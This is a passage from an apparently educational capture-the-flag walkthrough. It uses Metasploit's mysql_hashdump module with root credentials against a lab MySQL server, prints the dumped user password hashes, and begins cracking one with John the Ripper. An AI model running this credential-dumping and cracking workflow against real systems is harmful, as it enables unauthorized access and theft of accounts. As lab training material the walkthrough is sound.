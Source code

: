 It's **auxiliary/scanner/mysql/mysql_hashdump**.

Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?
```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > use 1
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options 

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set THREADS 16
THREADS => 16
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.39.195
RHOSTS => 10.10.39.195
msf6 auxiliary(scanner/mysql/mysql_hashdump) > exploit 

[+] 10.10.39.195:3306     - Saving HashString as Loot: root:
[+] 10.10.39.195:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.39.195:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.39.195:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.39.195:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.39.195:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.39.195:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
It's **carl**.

Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt". What is the user/hash combination string?
- **carl:*EA031893AA21444B170FC2162A56978B8CEECE18**.

Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found?
```bash
$ john hash.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Further messages of this type will be suppressed.
To see less of these warnings, enable 'RelaxKPCWarningCheck' in john.conf
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
```